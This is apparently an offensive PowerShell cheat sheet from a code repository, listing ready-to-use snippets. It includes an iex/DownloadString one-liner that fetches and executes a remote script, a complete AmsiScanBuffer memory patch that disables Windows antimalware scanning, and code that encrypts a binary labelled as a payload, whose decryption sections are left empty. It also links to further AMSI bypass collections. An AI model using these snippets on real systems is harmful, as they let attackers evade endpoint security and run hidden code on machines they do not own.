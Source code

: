 # In case of issues with TLS
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

# Download a script from an HTTP server
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/microsoft/ExPerfAnalyzer/main/ExPerfAnalyzer.ps1')
```

# Test on open/close port
```powershell
Test-NetConnection -Port 389 -InformationLevel "Detailed" <ip> 
```
- [Test-NetConnection](https://docs.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection)

# Patching amsi.dll AmsiScanBuffer by rasta-mouse
```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
- [AMSI.fail](https://amsi.fail/)
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)
- [Small modification to Rastemouse's AmsiScanBuffer bypass to use bytes.](https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998)


# Payload encryption/decryption
## Alternative 1
### Encryption
```powershell
$File="C:\Windows\System32\calc.exe"
$Password="LCSE39VzqmSL8fqE"

[Byte[]]$Bytes = [System.IO.File]::ReadAllBytes($File)
$B64String = [String][Convert]::ToBase64String($Bytes)

$SecureStringData = ConvertTo-SecureString $B64String -AsPlainText -Force
$SecureStringPwd = ConvertTo-SecureString $Password -AsPlainText -Force

$Encrypted = ConvertFrom-SecureString -SecureString $SecureStringData -SecureKey $SecureStringPwd

$Encrypted | Out-File -FilePath "C:\calc.exe.encrypted"
```
### Decryption
```powershell

```

## Alternative 2
### Encryption
```powershell
$File="C:\Windows\System32\calc.exe"
$Password="LCSE39VzqmSL8fqE"

[Byte[]]$Bytes = [System.IO.File]::ReadAllBytes($File)
$B64String = [String][Convert]::ToBase64String($Bytes)

$SecureStringData = ConvertTo-SecureString $B64String -AsPlainText -Force

$AESKey = New-Object Byte[] 32
[Security.Cryptography.RNGCryptoServiceProvider]::Create().GetBytes($AESKey)
$Encrypted = ConvertFrom-SecureString -SecureString $SecureStringData -key $AESKey

$Encrypted | Out-File -FilePath "C:\calc.exe.encrypted"
[String][Convert]::ToBase64String($AESKey)
```
### Decryption
```powershell

```

# How to grep in PowerShell 
```powershell
Select-String -Path "*.log" -Pattern "EMAIL_ADDRESS"
```
- [How to Use PowerShell Grep (Select-String)](https://adamtheautomator.com/powershell-grep/)
